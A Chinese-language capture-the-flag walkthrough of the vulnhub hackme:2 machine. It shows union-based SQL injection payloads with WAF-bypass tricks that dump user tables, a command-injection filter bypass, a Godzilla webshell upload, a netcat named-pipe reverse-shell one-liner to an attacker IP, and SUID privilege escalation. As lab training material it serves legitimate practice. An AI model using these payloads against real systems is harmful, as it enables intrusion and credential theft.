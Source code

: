 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/u77XaCgnzw_dvl9hOaUxKw)

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5vibAFHYslaOzu3N9IricPwsXcpia1W6ZNd513icXLgjnncgUzYLP2yzbiaPjnmSYs6ILPZdusibgPJNVw/640?wx_fmt=png)

**0x01 背景：**  

---------------

hackme:2 是 vulnhub 上的一个 medium 难度的 CTF 靶机，难度适中、内容丰富，贴近实战。而且没有太多的脑洞，适合安全工作者们用来练习渗透测试，然而唯一的缺憾是目前没有公开的攻略，因此把个人的通关过程记录于此，作为攻略分享给大家！

**0x02 技术关键词：**
---------------

SQL 注入、WAF Bypass、模糊测试、文件上传、suid 提权

**0x03 靶机发现与端口扫描**
------------------

做 vulnhub 上的靶机的第一步，所有的靶机都是一样的套路，不在这里多费笔墨。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5vibAFHYslaOzu3N9IricPwsBYF5Agmm06WgHzXjZFibicz0GDg1OxiaChxAUFTIvzgnzYGs1Nqvxlk6A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5vibAFHYslaOzu3N9IricPws1JTxicIFQjT6vCBzZcfNsuQam6z4LUVI5yEgwHzveicK3HticgOjEpaTQ/640?wx_fmt=png)

**0x04 SQL 注入与 WAF Bypass**
---------------------------

打开位于 80 端口的 Web 页面，注册一个测试账号 wangtua/wangtua，就可以登录系统了，可以发现是一个书店系统。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5vibAFHYslaOzu3N9IricPwsMhwPFdhKktEnUyMFwf1T8pZGe6ylEdtHLmibVjBVJupiayVYD4geaOAA/640?wx_fmt=png)

进入系统之后发现有一个搜索框，SQL 注入的套路很明显了。要做 SQL 注入、第一步就是猜测 SQL 语句的格式和注入点。

### **1、探测 SQL 格式，WAF 规则**

本搜索框的功能是检索数据库中的书名、当搜索框为空的时候，可以返回所有的内容，

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5vibAFHYslaOzu3N9IricPwsGMMJ7BtszkT56DW43IxeL8W9oqBn9bz4xBRA4NyRa2q3ib4k0jiaEb0g/640?wx_fmt=png)

当搜索框中只包含书名的前一部分的时候，也可以返回对应的内容：

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5vibAFHYslaOzu3N9IricPwsPXMQYtTbJmP6W6IXE8OdkmP08srZ2qsn3Anu8WF7v3UM3HVPUcyhxw/640?wx_fmt=png)

因此我们猜测 SQL 语句格式为 (% 代表通配符，可以匹配零个或者多个任意字符)：  

```
$sql = "SELECT * FROM BOOKS WHERE book_name LIKE '".$input."%';"
```

基于此，我们构造如下 payload：

```
Linux%' and '123' like '1
```

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5vibAFHYslaOzu3N9IricPwsYNpVop8oiaWb3icA0hicicBI7HcysuI4YMD4MqZH6zEDJ8f4JAiaIPKRfcw/640?wx_fmt=png)

使用另一个 payload：

```
Linux%' and '23' like '1
```

发现无法返回结果  

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5vibAFHYslaOzu3N9IricPwsQ8NZqVyeQmzldEC40DQ7ySibwjmCt2AdplbCdN5ct8ChEKatAlianUzA/640?wx_fmt=png)

可以验证我们的想法。  
然而我们使用数据库函数的时候却出现了问题：  
Payload:

```
Linux%'/**/and database() like/**/'
```

没有返回内容, 而当我们使用注释符来代替空格的时候，则可以执行成功。  

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5vibAFHYslaOzu3N9IricPwsQo29b4frUeypZhnQNJTlPQa32YL4CM42WtD6icJoV5nl1mn2PlNXiatQ/640?wx_fmt=png)

### 2、构造 Payload

通过构造联合查询，一步一步获取出数据库名，表名，列名和字段  

```
Linux%'/**/union/**/select/**/database/**/(),'2','3
```

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5vibAFHYslaOzu3N9IricPwsybBZxE5qzOhBxRSic1WIIh9NVibcrrJFqwAuJswyrlWsiaIIlGClX8Lng/640?wx_fmt=png)

```
Linux%'/**/union/**/select/**/group_concat(table_name),"2","3"/**/from/**/information_schema.tables/**/where/**/table_schema/**/like/**/'webapp
```

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5vibAFHYslaOzu3N9IricPwswEd5xLuQ63sbeB3Zia0kY1mJLP5ZepUwTL4DcxUib4Tibuib7hc9UZXOeQ/640?wx_fmt=png)

```
Linux%'/**/union/**/select/**/group_concat(column_name),"2","3"/**/from/**/information_schema.columns/**/where/**/table_name/**/like/**/'users'and/**/table_schema/**/like'webapp
```

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5vibAFHYslaOzu3N9IricPwsfFp8JkfteQ4lKzhqiamAQZzHbZvj1S0BHibtwgeeLFNaiaQysaRKwpIDA/640?wx_fmt=png)

```
Linux%'/**/union/**/select/**/group_concat(user),'2',group_concat(pasword)/**/from/**/users/**/where/**/'1'/**/like/**/'
```

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5vibAFHYslaOzu3N9IricPwsvJmSqyg8CbSHBrrp9tEv2FuMpdZuicETTJAnANVa0bCyzniavgBTHHxA/640?wx_fmt=png)

到此为止我们发现了一个 superadmin 的账号，将 md5 值在线解码之后发现是 Uncrackable

**0x05 模糊测试与命令执行**
------------------

进入超级管理员账号之后，我们发现了一个可以进行文件上传的点,

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5vibAFHYslaOzu3N9IricPwsOuxlibUtxoYk2aibAKuLy9NicqCJHibNHSYfl7B8e4WEiapT56oq3hvfPSw/640?wx_fmt=png)

上传 cat.jpg 之后，页面上回显了上传路径。  
然而我们却无法直接访问任何文件。  
接下来我们注意到下面两个输入框，可以将处理结果回显到页面上，这里我除了想到 XSS 之外。还想到了测试命令注入或者模板注入。可以发现在 Last Name 输入框里输入 7*7，可以返回 49  
我们可以使用 BurpSuite 专业版的 Intruder 模块来进行模糊测试。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5vibAFHYslaOzu3N9IricPws1b60tG42L3Kb3c4e7vUtrBgsTIZq8T8CicRDwTibGvtDgqSMNXFicN56w/640?wx_fmt=png)

Payload 选择模糊测试 - 完整，

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5vibAFHYslaOzu3N9IricPwsr3Vc8x1CfDrdNB1ePPHohAb2rav15UeLGpcUsdDCtCn0AJ0zxx2Yvw/640?wx_fmt=png)

点击开始攻击。  
攻击完成之后可以发现 `id` 这个 payload 有命令执行的回显。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5vibAFHYslaOzu3N9IricPwsj4uc9PbabJFmbm5MrkG92MStfvqveUwXIX0ibsr9MDxiaIttxqNicH5sg/640?wx_fmt=png)

我们换其他命令来执行，例如 pwd,ls 都可以正确执行而 cat 命令无法执行，猜测其过滤了空格，我们使用 cat<welcomeadmin.php 这个 payload 来绕过过滤。  
可以看到在返回包里泄露的 welcomeadmin.php 的完整源代码，包括文件上传的绝对路径。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5vibAFHYslaOzu3N9IricPws1h4I0ny7A3jjwxffvKtia2eLYPJhcyndX7ZkZlKgxVOuTtj1NJadBTw/640?wx_fmt=png)

以及命令执行的成因：

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5vibAFHYslaOzu3N9IricPws0HwhjbUkPQ8ylia9AWTfHZWccfjzMicGibHXVU4rWrtS0JNo9g54TsIyg/640?wx_fmt=png)

使用哥斯拉生成木马并上传，发现 php 后缀被过滤，换成 php3 等也不行。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5vibAFHYslaOzu3N9IricPwsnrz3hWQPibVaEYfH2zvyOSjKzCnUdTPfgIibxtgrUfbrnbQ0yUApLPzw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5vibAFHYslaOzu3N9IricPwsMeydhR0vOuDiaIdz1bstXibg6qVxcX8nO6LhMvHpdIdoCqqtpxwRNIRA/640?wx_fmt=png)

后缀改成 png 之后才上传成功，然而无法正常解析成 PHP 文件。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5vibAFHYslaOzu3N9IricPws09RfVqbdOaib5iciaZVlNdQXYEgf5vshKwlmxBsLl7TAPLDcP29PT7qwA/640?wx_fmt=png)

这里考虑使用刚才的命令执行漏洞，将文件名改成 god.php

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5vibAFHYslaOzu3N9IricPws4ibR7zKtGjXVN0ibSQQJIeNurIrxpAnRrKtuEW8JfkphrsmpF294Nkpw/640?wx_fmt=png)

使用哥斯拉进行连接，发现连接成功

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5vibAFHYslaOzu3N9IricPws15kaF2JlWib5lT2Z8IpKQhicP25icreOoV5fJibQWSyuPCDxfJcJwLia88Q/640?wx_fmt=png)

**0x06 后渗透与提权**
---------------

为了可以有更好的交互环境，我们用 kali 自带的 weevely 生成木马并连接，完成连接之后使用 nc 反弹 shell：  
由于靶机的 nc 版本特殊，无法使用 nc -e 选项，因此这里使用了如下的 payload  
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.48.129 2333 >/tmp/f  
(来自参考资料 2)

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5vibAFHYslaOzu3N9IricPwsJubfL937A9gAaI8ly0X3icVibjj1yIACO1nn7LHhB6LafFLjj031OyDA/640?wx_fmt=png)

使用 pyhton 伪终端命令, 可以在伪终端执行 sudo 等命令

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5vibAFHYslaOzu3N9IricPwsDbFP2MJgjWXqaicy6kdfic6iaJFOVT4MuFcJic0SdWget9LvU8yLTCDcmQ/640?wx_fmt=png)

使用命令 find / -perm -u=s -type f 2>/dev/null 来发现设置了 suid 位的应用程序（参考资料 1）  
关于 suid 提权的原理，可以参考 P 师傅的博客 (参考资料 3)。

发现 home 目录下有一个可疑的文件，执行一下之后发现顺利 get root 权限。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5vibAFHYslaOzu3N9IricPwsaaIzJ4y5dZrMdianA0KrL1B0JJHibR1KSUiaQ2VFIK5MoqhVUqR4opItg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5vibAFHYslaOzu3N9IricPwsHdbo0dZvzAtvYHStW4qudC255htpCk2Jz6ibm9WsTBqJFFHlmrgY10w/640?wx_fmt=png)  

**0x07 总结与复盘：**
---------------

这台靶机感觉制作的比较用心，SQL 注入和文件上传等部分都比较贴近实战，唯一美中不足的是提权部分有些太过简单。目前本人正在备考 OSCP，在 vulnhub 和 HTB 上做了不少靶机，打算最近把 vulnhub 上后渗透的套路总结一下，再发一篇文章，希望大家支持一下。

**0x08 参考资料：**
--------------

1） https://payatu.com/guide-linux-privilege-escalation  
2） https://github.com/swisskyrepo/PayloadsAllTheThings  
3） https://www.leavesongs.com/PENETRATION/linux-suid-privilege-escalation.html

（点击 “阅读原文” 查看链接）

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6OLwHohYU7UjX5anusw3ZzxxUKM0Ert9iaakSvib40glppuwsWytjDfiaFx1T25gsIWL5c8c7kicamxw/640?wx_fmt=png)
----------------------------------------------------------------------------------------------------------------------------------------------

  

- End -  

精彩推荐

[免拆芯片提取固件](http://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&mid=2649738145&idx=3&sn=4dc13022cd2dde0e4e270e02f1955757&chksm=888cfbcebffb72d85a53f3ba66f030c60605445485f19e0686138211a6079a7365bbc3873529&scene=21#wechat_redirect)  

[风吹幡动：F5 与 “感知可控、随需而变的应用”](http://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&mid=2649737654&idx=3&sn=4c96bfa681a4a0188cf6fbd19b2e1420&chksm=888cf9d9bffb70cf98171e6190ea43894e3376a6257329a6b2b1bad0a9f7c7b50e8f382df2e7&scene=21#wechat_redirect)  

[gatesXgame](http://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&mid=2649737587&idx=3&sn=8f21d3884d1c9e5e518562c33e4c2d4a&chksm=888cf91cbffb700a5b0f68e51e1324d5527cb76a5b8b4169b50c0baa042b2edf230f7c50740b&scene=21#wechat_redirect)

![](https://mmbiz.qpic.cn/mmbiz_gif/Ok4fxxCpBb5ZMeq0JBK8AOH3CVMApDrPvnibHjxDDT1mY2ic8ABv6zWUDq0VxcQ128rL7lxiaQrE1oTmjqInO89xA/640?wx_fmt=gif)  

------------------------------------------------------------------------------------------------------------------------------------------------

**戳 “阅读原文” 查看更多内容**